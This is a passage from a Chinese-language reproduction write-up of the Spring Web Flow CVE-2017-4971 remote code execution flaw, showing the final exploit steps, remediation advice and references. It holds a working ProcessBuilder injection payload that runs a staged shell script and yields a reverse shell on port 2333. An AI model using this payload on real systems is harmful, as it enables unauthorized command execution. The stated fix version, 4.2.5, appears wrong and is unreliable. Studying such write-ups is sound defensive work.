
8. 执行shell.sh文件同时监听2333端口，执行payload:`&_(new+java.lang.ProcessBuilder("/bin/bash","/tmp/shell.sh")).start()=feifei`



9. 在监听的服务器中查看监听的2333端口有没有反弹shell，可以看到成功反弹shell，可以执行权限内任意命令。


## 5.&emsp;修复意见 ##

&emsp;&emsp;升级Spring Web Flow版本到4.2.5

## 6.&emsp;参考资料 ##

1. [CVE-2017-4971漏洞报告](https://pivotal.io/security/cve-2017-4971 "https://pivotal.io/security/cve-2017-4971")
2. [Spring Web Flow 2.0 学习文档]( https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html " https://www.ibm.com/developerworks/cn/education/java/j-spring-webflow/index.html")
3. [Spring WebFlow 远程代码执行漏洞分析](https://threathunter.org/topic/593d562353ab369c55425a90 "https://threathunter.org/topic/593d562353ab369c55425a90")
